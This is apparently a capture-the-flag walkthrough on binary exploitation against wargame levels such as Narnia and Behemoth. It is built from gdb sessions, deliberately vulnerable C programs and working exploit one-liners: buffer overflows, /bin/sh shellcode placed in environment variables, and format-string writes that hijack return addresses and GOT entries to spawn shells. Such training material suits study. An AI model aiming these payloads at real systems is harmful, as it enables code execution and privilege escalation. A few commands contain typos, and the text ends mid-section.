   gdb-peda$ br *main+346
   Breakpoint 1 at 0x80486e2: file narnia6.c, line 48.
   gdb-peda$ run `python -c 'print "A"*8 + "BBBB" + " " + "C"*8 + "DDDD"'`
   [-------------------------------------code-------------------------------------]
      0x80486d7 <main+335>:    lea    eax,[esp+0x20]
      0x80486db <main+339>:    mov    DWORD PTR [esp],eax
      0x80486de <main+342>:    mov    eax,DWORD PTR [esp+0x28]
   => 0x80486e2 <main+346>:    call   eax
      0x80486e4 <main+348>:    mov    DWORD PTR [esp],0x1
      0x80486eb <main+355>:    call   0x8048450 <exit@plt>
      0x80486f0 <__libc_csu_fini>: push   ebp
      0x80486f1 <__libc_csu_fini+1>:   mov    ebp,esp
   Guessed arguments:
   arg[0]: 0xffffd380 ("DDDD")
   Breakpoint 1, 0x080486e2 in main (argc=0x3, argv=0xffffd444) at narnia6.c:48
   48      fp(b1);
   gdb-peda$ p b1
   $1 = "DDDD\000AAA"
   gdb-peda$ p b2
   $2 = "CCCCCCCC"
   gdb-peda$ p puts
   $3 = {<text variable, no debug info>} 0xf7eb3360 <puts>
   gdb-peda$ p system
   $4 = {<text variable, no debug info>} 0xf7e8bc30 <system>
   gdb-peda$ p &b1
   $5 = (char (*)[8]) 0xffffd380
   gdb-peda$ x/50xw 0xffffd350
   0xffffd360: 0xffffd380  0xffffd5df  0x0000003b  0x0804874b
   0xffffd370: 0x00000003  0xffffd444  0x43434343  0x43434343
   0xffffd380: 0x44444444  0x41414100  0x42424242  0x00000000
   0xffffd390: 0x08048700  0xf7fb0ff4  0xffffd418  0xf7e66e46
   0xffffd3a0: 0x00000003  0xffffd444  0xffffd454  0xf7fde860
   gdb-peda$ p fp
   $6 = (int (*)(char *)) 0x42424242
   gdb-peda$ p &fp
   $7 = (int (**)(char *)) 0xffffd388
   gdb-peda$ p $fp
   $8 = (void *) 0xffffd398

 The address of fp "p &fp" is 0xffffd3888 which has a value of ("p fp") 0x42424242. As previously the stack is NoteXecutable, but stdlib.h is included in the C Program. Stdlib.h includes system call which has an address of ("p system") 0xf7e8bc30. Further DDDD overwrites AAAA with the Null byte.

 ::

   narnia6@melinda:/narnia$ ./narnia6 `python -c 'print "A"*8 + "\x40\x1c\xe6\xf7" + " " + "C"*8 + "/bin/sh"'`
   $ cat /etc/narnia_pass/narnia7


* Let's see another example where we have to use a environment variable to invoke a shell Narnia8.

 .. code:: c

    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>
    // gcc's variable reordering fucked things up
    // to keep the level in its old style i am 
    // making "i" global unti i find a fix 
    // -morla 
    int i; 

    void func(char *b){
        char *blah=b;
        char bok[20];
        //int i=0;
        
        memset(bok, '\0', sizeof(bok));
        for(i=0; blah[i] != '\0'; i++)
            bok[i]=blah[i];

        printf("%s\n",bok);
    }

    int main(int argc, char **argv){
            
        if(argc > 1)       
            func(argv[1]);
        else    
        printf("%s argument\n", argv[0]);

        return 0;
    }

 Let's see what is happening here: for loop in function func copies data from blah to bok character array until a null character is found. Let's see how the stack would look like 
 ::

    <bok character array><blah pointer><fp><ret><pointer b>

 Let's confirm this by using gdb? We put an breakpoint on printf function in the func function. 

 ::

    0xffffd670: 0x08048580  0xffffd688  0x00000014  0xf7e54f53
    0xffffd680: 0x00000000  0x00ca0000  0x41414141  0x41414141
    0xffffd690: 0x41414141  0x41414141  0x00414141  0xffffd8b1
    0xffffd6a0: 0x00000002  0xffffd764  0xffffd6c8  0x080484cd
    0xffffd6b0: 0xffffd8b1  0xf7ffd000  0x080484fb  0xf7fca000

 Address 0xffffd689 marks the start of the character buffer bok. I entered 19 A so it's 0x41 19 times followed by null 0x00. Followed by that is 0xffffd8b1 (Value of Blah pointer). Followed by fp 12 bytes <0x00000002 0xffffd764 0xffffd6c8>. Followed by 0x080484cd which is the return address

 ::

    (gdb) x/s 0x080484cd
    0x80484cd <main+31>:    "\353\025\213E\f\213"

 followed by pointer b (0xffffd8b1). Let's see what's at location 0xffffd8b1

 ::

    (gdb) x/20wx 0xffffd8b1
    0xffffd8b1: 0x41414141  0x41414141  0x41414141  0x41414141
    0xffffd8c1: 0x00414141  0x5f474458  0x53534553  0x5f4e4f49

 Let's see what happens when we try to enter more than the 19 character (buffer size of bok - 1 byte (for null character))

 ::

    narnia8@melinda:/narnia$ ./narnia8 `python -c 'print "A"*20'`
    AAAAAAAAAAAAAAAAAAAA����
    narnia8@melinda:/narnia$ ./narnia8 `python -c 'print "A"*20'` | hexdump 
    0000000 4141 4141 4141 4141 4141 4141 4141 4141
    0000010 4141 4141 d8bf ffff 0a02               
    000001a

 As expected, we get A followed by some garbage. which is the address where blah is pointing. We know that we can overwrite the RET address by

 ::

    # `python -c 'print "A"*20 + "\x90\x90\x90\x90" + "A"*12 + "BBBB"'`

 Let's see what happens when we do this. After copying 20 A it copies \x90 and makes blah pointer from 0xffffd8bf to 0xffffd890. Because of the for loop

 ::

    for(i=0; blah[i] != '\0'; i++)

 It now copies the character from 0xffffd890 reference i.e 0xffffd890 + i value. Suppose it copied the character 0x41. The address becomes 0xffff4190 and now for loop searches from that address until a null character is found.

 ::

    (gdb) x/20xw $esp
    0xffffd660: 0xffffd678  0x00000000  0x00000014  0xf7e54f53
    0xffffd670: 0x00000000  0x00ca0000  0x41414141  0x41414141
    0xffffd680: 0x41414141  0x41414141  0x41414141  0xffffd890
    0xffffd690: 0x00000002  0xffffd754  0xffffd6b8  0x080484cd
    0xffffd6a0: 0xffffd89c  0xf7ffd000  0x080484fb  0xf7fca000

    (gdb) x/10xw 0xffffd890
    0xffffd890: 0x2f61696e  0x6e72616e  0x00386169  0x41414141
    0xffffd8a0: 0x41414141  0x41414141  0x41414141  0x41414141
    0xffffd8b0: 0x90909090  0x41414141

    (gdb) x/20xw $esp
    0xffffd660: 0x08048580  0xffffd678  0x00000014  0xf7e54f53
    0xffffd670: 0x00000000  0x00ca0000  0x41414141  0x41414141
    0xffffd680: 0x41414141  0x41414141  0x41414141  0xffff4190
    0xffffd690: 0x00000002  0xffffd754  0xffffd6b8  0x080484cd
    0xffffd6a0: 0xffffd89c  0xf7ffd000  0x080484fb  0xf7fca000

    (gdb) x/10xw 0xffff4190
    0xffff4190: 0x00000000  0x00000000  0x00000000  0x00000000
    0xffff41a0: 0x00000000  0x00000000  0x00000000  0x00000000
    0xffff41b0: 0x00000000  0x00000000

 If we can somehow keep/change the blah pointer back to it's original value we may overwrite the RET pointer (after 12 bytes). Let's see how 0xffffd89c looks when is used 
 ::

    `python -c 'print "A"*20 + "\x90\x90\x90\x90" + "A"*12 + "BBBB"'`

 ::

    (gdb) x/30xw 0xffffd89c
    0xffffd89c: 0x41414141  0x41414141  0x41414141  0x41414141
    0xffffd8ac: 0x41414141  0x90909090  0x41414141  0x41414141
    0xffffd8bc: 0x41414141  0x42424242  0x47445800  0x5345535f

 When we used the below with the address, we were able to overwrite the RET by BBBB. Now, we control the EIP :)

 ::

    (gdb) run `python -c 'print "A"*20 + "\x9c\xd8\xff\xff" + "A"*12 + "BBBB"'`


    (gdb) x/20xw $esp
    0xffffd660: 0x08048580  0xffffd678  0x00000014  0xf7e54f53
    0xffffd670: 0x00000000  0x00ca0000  0x41414141  0x41414141
    0xffffd680: 0x41414141  0x41414141  0x41414141  0xffffd89c
    0xffffd690: 0x41414141  0x41414141  0x41414141  0x42424242

 Let's export a shellcode using a environment variable check it's address on the stack and redirect the flow of our code to it. Notice the number of NOPs we have put for easy identification plus reachability.

 ::

    export EGG=`python -c 'print "\x90"*90 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"'`

 Searching our environment variable we get it at address 0xffffd8d4.

 ::

    (gdb) x/100xw $esp+500
    0xffffd7e4: 0x0000000f  0xffffd80b  0x00000000  0x00000000
    0xffffd7f4: 0x00000000  0xde000000  0x1a2a5992  0xf11444ea
    0xffffd804: 0x11433cf3  0x694a71a2  0x00363836  0x672f0000
    0xffffd814: 0x73656d61  0x72616e2f  0x2f61696e  0x6e72616e
    0xffffd824: 0x00386169  0x41414141  0x41414141  0x41414141
    0xffffd834: 0x41414141  0x41414141  0xffffd828  0x41414141
    0xffffd844: 0x41414141  0x41414141  0x42424242  0x47445800
    0xffffd854: 0x5345535f  0x4e4f4953  0x3d44495f  0x35343239
    0xffffd864: 0x45485300  0x2f3d4c4c  0x2f6e6962  0x68736162
    0xffffd874: 0x52455400  0x74783d4d  0x006d7265  0x5f485353
    0xffffd884: 0x45494c43  0x353d544e  0x34392e39  0x2e31362e
    0xffffd894: 0x20343731  0x37373835  0x32322032  0x48535300
    0xffffd8a4: 0x5954545f  0x65642f3d  0x74702f76  0x31312f73
    0xffffd8b4: 0x5f434c00  0x3d4c4c41  0x47450043  0x90903d47
    0xffffd8c4: 0x90909090  0x90909090  0x90909090  0x90909090
    0xffffd8d4: 0x90909090  0x90909090  0x90909090  0x90909090
    0xffffd8e4: 0x90909090  0x90909090  0x90909090  0x90909090
    0xffffd8f4: 0x90909090  0x90909090  0x90909090  0x90909090
    0xffffd904: 0x90909090  0x90909090  0x90909090  0x90909090
    0xffffd914: 0x90909090  0x90909090  0x99580b6a  0x2f2f6852
    0xffffd924: 0x2f686873  0x896e6962  0xcdc931e3  0x53550080
    0xffffd934: 0x6e3d5245  0x696e7261  0x4c003861  0x4f435f53
    0xffffd944: 0x53524f4c  0x3d73723d  0x69643a30  0x3b31303d

 Let's redirect our program to 0xffffd8d4 to get the shell

 ::

    (gdb) run `python -c 'print "A"*20 + "\x28\xd8\xff\xff" + "A"*12 + "\xd4\xd8\xff\xff"'`
    The program being debugged has been started already.
    Start it from the beginning? (y or n) y
    Starting program: /games/narnia/narnia8 `python -c 'print "A"*20 + "\x28\xd8\xff\xff" + "A"*12 + "\xd4\xd8\xff\xff"'`

    Breakpoint 1, 0x080484a7 in func ()
    (gdb) c
    Continuing.
    AAAAAAAAAAAAAAAAAAAA(���AAAAAAAAAAAA����(���
    process 19900 is executing new program: /bin/dash
    Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
    Error in re-setting breakpoint 1: No symbol "func" in current context.
    Error in re-setting breakpoint 1: No symbol "func" in current context.
    Error in re-setting breakpoint 1: No symbol "func" in current context.
    $ 

 Trying this without gdb didn't work because the address of character array changes

 ::

    narnia8@melinda:/narnia$ ./narnia8 `python -c 'print "A"*20 + "\x28\xd8\xff\xff" + "B"*12 + "\xd4\xd8\xff\xff"'` 
    AAAAAAAAAAAAAAAAAAAA(A��
    narnia8@melinda:/narnia$ ./narnia8 `python -c 'print "A"*20 + "\x28\xd8\xff\xff" + "B"*12 + "\xd4\xd8\xff\xff"'` | hexdump
    0000000 4141 4141 4141 4141 4141 4141 4141 4141
    0000010 4141 4141 4128 ffff 0a02               
    000001a

 Changing 28 to 0a just by chance gave me the correct address to be pointed at

 ::

    narnia8@melinda:/narnia$ ./narnia8 `python -c 'print "A"*20 + "\x0a\xd8\xff\xff" + "B"*12 + "\xd4\xd8\xff\xff"'` | hexdump
    0000000 4141 4141 4141 4141 4141 4141 4141 4141
    0000010 4141 4141 d837 ffff 0a03               

 ::

    narnia8@melinda:/narnia$ ./narnia8 `python -c 'print "A"*20 + "\x37\xd8\xff\xff" + "B"*12 + "\xd4\xd8\xff\xff"'`          
    AAAAAAAAAAAAAAAAAAAA7���BBBBBBBBBBBB����7���
    $ 

 For example, below you need the address of secret to write the new value 0x1337beef.

 .. code:: c

    unsigned secret = 0xdeadbeef;

    int main(int argc, char **argv){
        unsigned *ptr;
        unsigned value;
        char key[33];
        FILE *f;
        printf("Welcome! I will grant you one arbitrary write!\n");
        printf("Where do you want to write to? ");
        scanf("%p", &ptr);
        printf("Okay! What do you want to write there? ");
        scanf("%p", (void **)&value);
        printf("Writing %p to %p...\n", (void *)value, (void *)ptr);
        *ptr = value;
        printf("Value written!\n");
        if (secret == 0x1337beef){
            printf("Woah! You changed my secret!\n");
            printf("I guess this means you get a flag now...\n");

            f = fopen("flag.txt", "r");
            fgets(key, 32, f);
            fclose(f);
            puts(key);
            exit(0);
        }
        printf("My secret is still safe! Sorry.\n");
    }


* In another challenge below, It can be easily seen the value of secret can be changed after entering 16 characters + 0xc0deface. As, 0xc0deface can't be printed as ASCII characters, you can use python to pass the input.

 ::

    python -c ' print "A" * 16 + "\xc0\xde\xfa\xce"' or python -c ' print "A" * 16 + "\xce\xfa\xde\xc0"' based on the endianess of the system.

 .. code:: C 

   void give_shell(){ 
        gid\_t gid = getegid(); 
        setresgid(gid, gid,gid); 
        system("/bin/sh -i"); }

   void vuln(char \*input){ 
        char buf[16]; 
        int secret = 0; 
        strcpy(buf,input);

    if (secret == 0xc0deface){
        give_shell();
    }else{
        printf("The secret is %x\n", secret);
    }

   }

   int main(int argc, char \*\*argv)
   { if (argc > 1) 
        vuln(argv[1]); 
        return 0; }


* Controlling the EIP: In the below challenge, an attacker can use a buffer overflow to take control of the program's execution. the return address for the call to vuln function is above buf on the stack, so it can be overwritten with an overflow. this allows an attacker to put nearly any address they desire in place of the return address. in this example, the goal is to call the give\_shell function.

 * We need to find the address of give\_shell function which can be done either by using gdb and print give\_shell or objdump -d outputfile \| grep give\_shell.
 * To know the EIP offset, you can use cyclic patterns. Use pattern\_create.rb and pattern\_offset.rb So pattern\_create.rb 100 for instance will create a 100 byte cyclic pattern. 
 * Then you feed this as your input to the vulnerable program and it will crash. so get the value of EIP at that point.
 * Then, we just need to pass the input to the program by 
 
  ::

    ./a.out $(python -c ' print "A" \* Offset + "Address of give\_shell in hex"' )

  ::
  
    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>

    /* This never gets called! */
    void give_shell(){
         gid_t gid = getegid();
         setresgid(gid, gid, gid);
         system("/bin/sh -i");
    }

    void vuln(char *input){
         char buf[16];
         strcpy(buf, input);
    }

    int main(int argc, char **argv){
         if (argc > 1)
            vuln(argv[1]);
            return 0;
    }


* Execute Me: If you check the below code, getegid() function shall return the effective group ID of the calling process., setresuid() sets the real user ID, the effective user ID, and the saved set-user-ID of the calling process. If you see, read function read the stdin into the buffer and (function\_ptf) buf() function is called which would call anything in the buffer.

 * Since, buf will execute anything, we need a shell code to fit in 128 bytes, There are plenty of shellcode (with different platforms and different working)which can be found on Shell-Storm.
 * Then, we just need to pass the input to the program by
   ::
     
     ./a.out $(python -c ' print "A" \* Offset + "Address of give\_shell in hex"' )
   
   ::

     #include <stdio.h>
     #include <stdlib.h>

     int token = 0;

     typedef void (*function_ptr)();

     void be_nice_to_people(){
         gid_t gid = getegid();
         setresgid(gid, gid, gid);
     }

     int main(int argc, char **argv){
              char buf[128];

              be_nice_to_people();
              read(0, buf, 128);
              ((function_ptr)buf)();
      }


* ROP1: This binary is running on a machine with ASLR! (Address space layout randomization (ASLR) is a computer security technique involved in protection from buffer overflow attacks.) Can you bypass it?

 * From the code provided we can see that there’s a buffer overflow in the vuln() function due to the strcpy() call. run the program within gdb and see what the state of the registers and the stack are at the time of the crash.
 * From the cylic patterns tools, we could find that offset is at 76 which could be confirmed by providing a input of 76 “A”s and 4 “B”s to overwrite EIP. set a breakpoint after the call to strcpy(); that is \*vuln+24. After the leave instruction is executed, EIP will be set to 0x424242.

 * EAX points to our buffer of “A”s and since the binary doesn’t have the NX bit, we can execute shellcode on the stack. To bypass ASLR, we just need to find an address that will do a JMP/CALL EAX and set that as our return address. msfelfscan can find a list of instructions to accomplish this:

 * Since the binary is compiled for 32 bit, searching the shellcode in Shellstorm for Linux\_x86 executing /bin/sh, we get 21 bytes shellcode in kernelpanic.

 * As EAX contains the 76\*A + BBBB when the vuln function returns, we just need to find address which will execute JMP EAX, it can be found by msfelfscan -j eax binary\_file

 * One more small but important observation is the number of NOPs, as our shellcode is 21 bytes and offset is 76 bytes and jmp is 4 bytes. So, 76 - 21 - 4 = 51.

  .. code:: python

    import struct
    code = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"
    jmpeax = struct.pack("<I",0x080483e7)
    print "\x90"*51 + code + jmpeax


  .. code:: C

    #include <stdio.h>
    #include <string.h>
    #include <stdlib.h>
 
    void be_nice_to_people(){
         gid_t gid = getegid();
         setresgid(gid, gid, gid);
     }

    void vuln(char *name){
         char buf[64];
         strcpy(buf, name);
    }

    int main(int argc, char **argv){
        be_nice_to_people();
        if(argc > 1)
           vuln(argv[1]);
           return 0;
    }



Format String Examples
======================

Let's see a simple example of a format string vulnerabilty. 

* Narnia5

 ::  
 
   include <stdio.h>
   include <stdlib.h>
   include <string.h>

   int main(int argc, char \*\*argv){ 
        int i = 1; char buffer[64];
        snprintf(buffer, sizeof buffer, argv[1]);
        buffer[sizeof (buffer) - 1] = 0;
        printf("Change i's value from 1 -> 500. ");

        if(i==500){
          printf("GOOD\n");
          system("/bin/sh");
        }

        printf("No way...let me give you a hint!\n");
        printf("buffer : [%s] (%d)\n", buffer, strlen(buffer));
        printf ("i = %d (%p)\n", i, &i);
        return 0;
   }
   
 Let's try to see what's on stack and if we can put something on stack and change the value of i.

 ::

  narnia5@melinda:~$ /narnia/narnia5
  %08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x Change i's value from 1 -> 500.
  No way...let me give you a hint! buffer :
  [f7eb6de6.ffffffff.ffffd6ae.f7e2ebf8.62653766.36656436.6666662e.] (63) i
  = 1 (0xffffd6cc)

        narnia5@melinda:~$ /narnia/narnia5
        AAAA%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x Change i's value from 1 ->
        500. No way...let me give you a hint! buffer :
        [AAAAf7eb6de6.ffffffff.ffffd6ae.f7e2ebf8.41414141.62653766.36656] (63) i
        = 1 (0xffffd6cc)

        narnia5@melinda:~$ /narnia/narnia5
        ``python -c 'print "\xcc\xd6\xff\xff%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x"'``
        Change i's value from 1 -> 500. No way...let me give you a hint! buffer
        : [����f7eb6de6.ffffffff.ffffd6ae.f7e2ebf8.ffffd6cc.62653766.36656] (63)
        i = 1 (0xffffd6cc)

        narnia5@melinda:~$ /narnia/narnia5
        ``python -c 'print "\xcc\xd6\xff\xff%08x.%08x.%08x.%08x.%08n.%08x.%08x.%08x"'``
        Change i's value from 1 -> 500. No way...let me give you a hint! buffer
        : [����f7eb6de6.ffffffff.ffffd6ae.f7e2ebf8..62653766.36656436.6666] (63)
        i = 40 (0xffffd6cc)

        narnia5@melinda:~$ /narnia/narnia5
        ``python -c 'print "\xcc\xd6\xff\xff%08x.%08x.%08x.%468x.%08n.%08x.%08x.%08x"'``
        Change i's value from 1 -> 500. GOOD $ 


* In this example, let's see use of arbitary writing an address Narnia7

 .. code:: c

    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>
    #include <stdlib.h>
    #include <unistd.h>

    int goodfunction();
    int hackedfunction();

    int vuln(const char *format){
            char buffer[128];
            int (*ptrf)();

            memset(buffer, 0, sizeof(buffer));
            printf("goodfunction() = %p\n", goodfunction);
            printf("hackedfunction() = %p\n\n", hackedfunction);

            ptrf = goodfunction;
            printf("before : ptrf() = %p (%p)\n", ptrf, &ptrf);

            printf("I guess you want to come to the hackedfunction...\n");
            sleep(2);
            ptrf = goodfunction;
      
            snprintf(buffer, sizeof buffer, format);

            return ptrf();
    }

    int main(int argc, char **argv){
            if (argc <= 1){
                    fprintf(stderr, "Usage: %s <buffer>\n", argv[0]);
                    exit(-1);
            }
            exit(vuln(argv[1]));
    }

    int goodfunction(){
            printf("Welcome to the goodfunction, but i said the Hackedfunction..\n");
            fflush(stdout);
            
            return 0;
    }

    int hackedfunction(){
            printf("Way to go!!!!");
        fflush(stdout);
            system("/bin/sh");

            return 0;
    }

 If we see, the program provides us with the address of the ptrf pointer, goodfunction and bad function. The ptrf is assigned the address of goodfunction if we somehow change it to address of the badfunction, we can get a shell. Let's run the program and see what are the address we get.

 ::

    ./narnia71 A
    goodfunction() = 0x804871f
    hackedfunction() = 0x8048745

    before : ptrf() = 0x804871f (0xffb4450c)
    I guess you want to come to the hackedfunction...
    Welcome to the goodfunction, but i said the Hackedfunction..

 and

 ::

    narnia7@melinda:/narnia$ ./narnia7 A
    goodfunction() = 0x80486e0
    hackedfunction() = 0x8048706

    before : ptrf() = 0x80486e0 (0xffffd64c)
    I guess you want to come to the hackedfunction...
    Welcome to the goodfunction, but i said the Hackedfunction..

 The reason I have added two running instances is because in the first instance the address is different by one byte 0x1f and 0x45 where as in the second instance the address differs by two bytes 0x86e0 and 0x8706. We can write two bytes by %hn and one byte by %hhn. We can write whole 4 byte address by following a formula

 ::

    If HOB < LOB

    HOB:0x0804
    LOB:0x8706

    [addr+2][addr] = \x4e\xd6\xff\xff\x4c\xd6\xff\xff
    %.[HOB - 8]x   = 0x804 - 8 = 7FC (2044) = %.2044x
    %[offset]$hn   = %6\$hn
    %.[LOB - HOB]x = 0x8706 - 0x804 = 7F02 (32514) = %.32514x
    %[offset+1]$hn = %7\$hn

    `python -c 'print "\x4e\xd6\xff\xff\x4c\xd6\xff\xff" +"%.2044x%6\$hn %.32514x%7\$hn"'`

 We also need to find the offset where the address is stored which can be done by two methods: Either compiling the program on local machine and checking the buffer just after snprintf

 ::

    gdb-peda$ p buffer 
    $2 = "AAAA.000008a2.f7fdeb58.f7fde860.0804835c.0804871f.41414141.3030302e.61383030", '\000' <repeats 51 times>

 or by using ltrace

 ::

    narnia7@melinda:/narnia$ ltrace ./narnia7 `python -c 'print "AAAA" + ".%08x"*7'`
    __libc_start_main(0x804868f, 2, 0xffffd764, 0x8048740 <unfinished ...>
    memset(0xffffd620, '\0', 128)                                                                                          = 0xffffd620
    printf("goodfunction() = %p\n", 0x80486e0goodfunction() = 0x80486e0
    )                                                                             = 27

    )                                                                         = 30
    printf("before : ptrf() = %p (%p)\n", 0x80486e0, 0xffffd61cbefore : ptrf() = 0x80486e0 (0xffffd61c)
    )                                                           = 41
    puts("I guess you want to come to the "...I guess you want to come to the hackedfunction...
    printf("hackedfunction() = %p\n\n", 0x8048706hackedfunction() = 0x8048706
    )                                                                            = 50
    sleep(2)                                                                                                               = 0
    snprintf("AAAA.08048238.ffffd678.f7ffda94."..., 128, "AAAA.%08x.%08x.%08x.%08x.%08x.%0"..., 0x8048238, 0xffffd678, 0xf7ffda94, 0, 0x80486e0, 0x41414141, 0x3038302e) = 67
    puts("Welcome to the goodfunction, but"...Welcome to the goodfunction, but i said the Hackedfunction..
    )                                                                            = 61
    fflush(0xf7fcaac0)                                                                                                     = 0
    exit(0 <no return ...>
    +++ exited (status 0) +++

 If you see 0x41414141 is at offset 6.

 ::

    gdb-peda$ p ptrf
    $3 = (int (*)()) 0x804871f <goodfunction>
    gdb-peda$ p &ptrf
    $4 = (int (**)()) 0xffffd2ec
    gdb-peda$ x /10xb 0xfffd3ea
    0xfffd3ea:  Cannot access memory at address 0xfffd3ea
    gdb-peda$ x /10xb 0xffffd3ea
    0xffffd3ea: 0x3f    0x77    0x00    0x00    0x00    0x00    0x00    0x00
    0xffffd3f2: 0x00    0x00
    gdb-peda$ x /10xb 0xffffd2ea
    0xffffd2ea: 0x04    0x08    0x1f    0x87    0x04    0x08    0x41    0x41
    0xffffd2f2: 0x41    0x41
    gdb-peda$ p goodfunction 
    $5 = {int ()} 0x804871f <goodfunction>
    gdb-peda$ p ha
    hackedfunction  hasmntopt       
    gdb-peda$ p hackedfunction 
    $6 = {int ()} 0x8048745 <hackedfunction>

 ::

    gdb-peda$ p &ptrf 
    $10 = (int (**)()) 0xffffd2fc
    gdb-peda$ run `python -c 'print "\xfc\xd2\xff\xff" + ".%08x"*5 + "%hhn"'`
    gdb-peda$ p ptrf 
    $12 = (int (*)()) 0x8048731 <goodfunction+18>
    gdb-peda$ x /10xb 0xffffd2fa
    0xffffd2fa: 0x04    0x08    0x31    0x87    0x04    0x08    0xfc    0xd2
    0xffffd302: 0xff    0xff


* Let's see another example Behemoth3 where we have only the assembly code of the program and we exploit this by two methods by overwriting the GOT address or overwriting the return address.

 Assembly Source Code:

 ::

    (gdb) disassemble main 
    Dump of assembler code for function main:
       0x0804847d <+0>: push   %ebp
       0x0804847e <+1>: mov    %esp,%ebp
       0x08048480 <+3>: and    $0xfffffff0,%esp
       0x08048483 <+6>: sub    $0xe0,%esp
       0x08048489 <+12>:    movl   $0x8048570,(%esp)
       0x08048490 <+19>:    call   0x8048330 <printf@plt>
       0x08048495 <+24>:    mov    0x80497a4,%eax
       0x0804849a <+29>:    mov    %eax,0x8(%esp)
       0x0804849e <+33>:    movl   $0xc8,0x4(%esp)
       0x080484a6 <+41>:    lea    0x18(%esp),%eax
       0x080484aa <+45>:    mov    %eax,(%esp)
       0x080484ad <+48>:    call   0x8048340 <fgets@plt>
       0x080484b2 <+53>:    movl   $0x8048584,(%esp)
       0x080484b9 <+60>:    call   0x8048330 <printf@plt>
       0x080484be <+65>:    lea    0x18(%esp),%eax
       0x080484c2 <+69>:    mov    %eax,(%esp)
       0x080484c5 <+72>:    call   0x8048330 <printf@plt>
       0x080484ca <+77>:    movl   $0x804858e,(%esp)
       0x080484d1 <+84>:    call   0x8048350 <puts@plt>
       0x080484d6 <+89>:    mov    $0x0,%eax
       0x080484db <+94>:    leave  
       0x080484dc <+95>:    ret    
    End of assembler dump.

 Observed Behavior:

 ::

    behemoth3@melinda:/tmp/rahul3$ ./behemoth3 
    Identify yourself: HelloCheck123
    Welcome, HelloCheck123

    aaaand goodbye again.

 Well, we tried to provide a very large input to the Identify yourself, but it didn't not gave a segmentation fault. Let's try format string:

 ::

    behemoth3@melinda:/tmp/rahul3$ echo `python -c 'print "A"*4 + ".%08x"*7'` | ./behemoth3 
    Identify yourself: Welcome, AAAA.000000c8.f7fcac20.00000000.00000000.f7ffd000.41414141.3830252e

    aaaand goodbye again.

 Trying simple format string provided us with the offset of our format string. Now we can write almost any address with any value with our input. Before that let's put a environment variable shellcode and check it's address:

 ::

    export EGG=`python -c 'print "\x90"*90 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"'`

 Let's core dump the binary using %s and examine the core. Our shellcode can be reached at 0xffffd8f0

 * Either we can overwrite the return address (main+95): Let's debug the program set the breakpoint at main+95 and see the value of $esp which would be use to find the return address when binary is executed without gdb. The valueis 0xf7e3ba63 and the return address which needed to be overwrriten is 0xffffd65c. Let's again core dump the binary to see the return address without gdb.

  ::

    (gdb) find $esp,+2000,0xf7e3ba63
    0xffffd66c
    1 pattern found.

  So, if we overwrite the return address at 0xffffd66c with our shellcode value of 0xffffd8f0, we should get a shell. 

  ::

     python -c 'print "\x5e\xd6\xff\xff\x5c\xd6\xff\xff" +"%.65527x%6$hn %.55503x%7$hn"' > input98

  This is little tricky because we might have to guess the return address without gdb. Previously it was coming 0xffffd66c but we got shell using 0xffffd65c.

 * overwrite the puts GOT address: Find the GOT address of puts which is 0x08049790 and overwrite it with

  ::

   python -c 'print "\x92\x97\x04\x08\x90\x97\x04\x08" +"%.65527x%6$hn %.55503x%7$hn"'


* In the below code, if we can somehow set the value of secret to 1337, we can get a shell on the system to read the flag. Also, the printf function directly prints the argument whatever is passed by the user. By concepts above, we need to find the address of secret and write to it. Address of the secret can be found by gdb or objdump. Either the address would be already present on stack or it can be put on stack.

 .. code:: c

    #include <stdio.h>
    #include <stdlib.h>
    #include <fcntl.h>

    int secret = 0;

    void give_shell(){
        gid_t gid = getegid();
        setresgid(gid, gid, gid);
        system("/bin/sh -i");
    }

    int main(int argc, char **argv){
        int *ptr = &secret;
        printf(argv[1]);

        if (secret == 1337){
            give_shell();
        }
        return 0;
    }

 Reading the address

 ::

    pico83515@shell:/home/format$ gdb -q format
    Reading symbols from format...(no debugging symbols found)...done.
    (gdb) p $secret
    $1 = void
    (gdb) p &secret
    $2 = (<data variable, no debug info> *) 0x804a030 <secret>

 Now we have to find whether is this address present on the stack? If not, we can put this address on the stack because of the format string vulnerability.

 ::

    pico83515@shell:/home/format$ ./format %08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x
    ffffd774.ffffd780.f7e4f39d.f7fc83c4.f7ffd000.0804852b.0804a030.08048520.00000000

 We see that the address is present on the stack at the seventh position. Otherwise, we can put it on the stack by

 ::

    for i in {1..256};do echo -n "Offset: $i:"; env -i ./format AAAA%$i\$x;echo ;done | grep 4141

 What this is doing is "Extracting particular stack content by "%$i$x". As we have seen in DMA, $x can be used to extract particular stack content and reading it. $i value changes from 1-256. However, as you add more data, the offset of your original input changes, so go ahead and add 1333 more bytes of data and see what the offset is then. (1337 is what we want to put into secret, and we will have written four bytes (AAAA), so 1333+4 = 1337)

 ::

    or i in {1..256};do echo -n "Offset: $i:"; env -i ./format AAAA%$i\$x%1333u;echo ;done | grep 4141
    Offset: 103:AAAA41410074
    Offset: 104:AAAA31254141

 So we found our A’s again, but they aren’t aligned on the stack. Lets add two more A’s at the end to see if we can get it to line up.

 ::

    for i in {1..256};do echo -n "Offset: $i:"; env -i ./format AAAA%$i\$x%1333uAA;echo ;done | grep 41414141
    Offset: 103:AAAA41414141

 It looks like the address 0x0804a030 is getting placed in \*ptr. That’s the address we need to use in place of our A’s. In order to place the number 1337 into secret’s memory address, we need to use the %n modifier. (%103$n will look at the data located at offset 103 as a memory address, and write the total number of bytes we have written so far into that address.) 
 ::

   pico1139@shell:/home/format$: env -i ./format $:`(python -c 'print "\x30\xa0\x04\x08"+"%1333u%103`\ nAA"') 
   $ id
   uid=11066(pico1139) gid=1008(format) groups=1017(picogroup) $ ls
   Makefile flag.txt format format.c $ cat flag.txt
   who\_thought\_%n\_was\_a\_good\_idea?

 Otherwise as the address at the seventh is already present on stack we can also do
 ::

